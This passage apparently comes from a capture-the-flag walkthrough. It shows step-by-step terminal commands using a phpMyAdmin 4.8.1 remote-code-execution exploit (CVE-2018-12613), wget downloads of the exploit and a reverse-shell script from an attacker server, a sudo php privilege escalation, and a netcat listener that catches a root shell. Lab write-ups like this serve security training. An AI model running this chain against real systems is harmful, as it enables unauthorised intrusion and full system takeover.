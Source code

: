 ```bash
:~/ForgottenImplant#searchsploit -m php/webapps/50457.py
  Exploit: phpMyAdmin 4.8.1 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50457
     Path: /opt/exploitdb/exploits/php/webapps/50457.py
    Codes: CVE-2018-12613
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/50457.py
```

```bash
:~/ForgottenImplant# python3 50457.py
Usage: 50457.py [ipaddr] [port] [path] [username] [password] [command]
Example: 50457.py xxx.xxx.xx.xx 8080 /phpmyadmin username password whoami
``` 

<br>
<br>

```bash
ada@...:~$ wget http://xx.xxx.x.xx:8000/50457.py
```

```bash
ada@...:~$ python3 50457.py 127.0.0.1 80 / app ******** 'whoami'
<thon3 50457.py 127.0.0.1 80 / app ******** 'whoami'
www-data
```

```bash
ada@...:~$ python3 50457.py 127.0.0.1 80 / app ******** 'sudo -l'
<hon3 50457.py 127.0.0.1 80 / app ******** 'sudo -l'
Matching Defaults entries for www-data on ip-xx-xxx-xx-xxx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-xx-xxx-xx-xxx:
    (root) NOPASSWD: /usr/bin/php
```

```bash
ada@i...:~$ wget http://xx.xxx.x.xx:8000/rev.php
```

```bash
ada@i...:~$ python3 50457.py 127.0.0.1 80 / app ******** 'sudo /usr/bin/php /home/ada/rev.php'
< app ******** 'sudo /usr/bin/php /home/ada/rev.php'
```


<br>
<br>

```bash
:~/ForgottenImplant# nc -nlvp 9001
...
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null
root@...:/# pwd
pwd
/
root@...:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
